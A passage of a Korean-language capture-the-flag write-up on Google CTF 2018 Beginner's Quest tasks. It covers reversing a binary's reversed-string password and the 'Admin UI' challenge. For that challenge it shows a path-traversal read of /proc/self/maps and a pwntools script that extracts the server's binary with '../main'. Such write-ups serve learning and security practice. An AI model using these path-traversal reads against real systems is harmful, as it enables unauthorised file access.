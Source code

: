 일반적인 64비트 바이너리다. 뭔가 애니메이션 화려하고 재밌는 귀여운 프로그램이다. 분석해보자.

![]({{ site.baseurl }}/images/KRater/2018-08-02-Begginers-Quest-2/pic04.PNG)

헥스레이로 main 까 보면 저런식으로 되어있다. 붉은 표시를 한 부분이 패스워드를 만들어 주는 부분인데, 단순히 문자열을 거꾸로 뒤집는거다. strcmp 하는 부분을 거꾸로 뒤집어주면 패스워드 완성~

![]({{ site.baseurl }}/images/KRater/2018-08-02-Begginers-Quest-2/pic05.PNG)

## ADMIN UI

> ADMIN UI
>
> Temp-o-matic
>
> pwn-re
>
> The command you just found removed the Foobanizer 9000 from the DMZ. While scanning the network, you find a weird device called Tempo-a-matic. According to a Google search it's a smart home temperature control experience. The management interface looks like a nest of bugs. You also stumble over some gossip on the dark net about bug hunters finding some vulnerabilities and because the vendor didn't have a bug bounty program, they were sold for US$3.49 a piece. Do some black box testing here, it'll go well with your hat. 
>
> $ nc mngmnt-iface.ctfcompetition.com 1337 

![]({{ site.baseurl }}/images/KRater/2018-08-02-Begginers-Quest-2/pic06.PNG)

일단 proc 위치를 찾아야 하는데, 절대경로로는 안 되길래 상대경로로 접근했다.

![]({{ site.baseurl }}/images/KRater/2018-08-02-Begginers-Quest-2/pic07.PNG)

찾아서 self의 maps를 보면 `/home/user/main` 프로그램에 대한 프로세스임을 확인할 수 있다. 일단 `../../../../`이 루트 디렉토리임은 확인이 되었으니, 따라가면 된다.

![]({{ site.baseurl }}/images/KRater/2018-08-02-Begginers-Quest-2/pic08.PNG)

그럼 바이너리를 읽을 수 있다. 이를 토대로 바이너리를 추출하자.

```python
# extract.py
# for GoogleCTF2018 Beginner's Quest, Admin UI

from pwn import *

HOST = "mngmnt-iface.ctfcompetition.com"
PORT = 1337
r = remote(HOST, PORT)

def main () :
    r.recv(1024)
    r.sendline("2")
    r.recvuntil("shown?")
    f = open("extracted", "w")

    r.sendline("../main")
    data = r.recvuntil("=== Management Interface ===").strip()
    data += r.recvuntil("=== Management Interface ===", drop=True).strip()
    f.write(data)
    log.warn(len(data))
    f.close()

if __name__ == '__main__' :
    main()
```
